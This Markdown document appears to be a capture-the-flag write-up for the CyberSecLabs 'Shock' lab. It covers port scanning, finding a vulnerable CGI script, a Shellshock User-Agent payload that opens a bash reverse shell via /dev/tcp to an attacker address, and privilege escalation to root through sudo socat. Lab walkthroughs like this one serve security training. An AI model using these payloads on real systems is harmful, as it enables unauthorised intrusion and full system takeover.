# CyberSecLabs : Shock

The name was quite a hint ```Shellshock vulnerability```

```zsh
nmap -sS -p- -r -Pn -T4 -v 172.31.1.3
```
Port 80 would be open. A simple website with hints for ```Shellshock Vulnerability```. 

Do some directory fuzzing.

```zsh
python3 dirsearch.py -u http://172.31.1.3:80 -e r -R 3
```
Presensce of a test-cgi

```
[01:46:21] 200 -    0B  - /cgi-bin/test.cgi
```

Use nmap to cross check:

```zsh
 nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/test.cgi 172.31.1.3
```
You will see it is vulnerable. If your nmap script doesnot work. Do the following.

Here is how to fix it:

```zsh
locate nse | grep shellshock
```
Open it and then edit these parts

```
  if cmd ~= nil then
  cmd = '() { :;}; echo;'..cmd
```

And comment out this line:

```options["header"][cmd] = cmd``` by using ```--``` before it.

Then simply use burp to intercept while you visit http://172.31.1.3/cgi-bin/test.cgi and send it to repeater
Start a listener too

```zsh
rlwrap nc -lvnp 443
```
And in the ```User-Agent``` edit it to this:

```
User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.0.40/1234 0>&1
```
And you will have a shell. Do a ```sudo -l ``` and you see that you can use socat with sudo without password and it will get executed with root privileges.Socat is a data transfer tool and similar to netcat

Start a ```socat``` listener on a your attacker machine

```zsh
socat - TCP4:172.31.1.3:4444
```
Now on the the victim shell just type this.

```zsh
sudo -u root socat TCP4-LISTEN:4444,reuseaddr EXEC:"/bin/bash"
```

And you will now have a root shell !

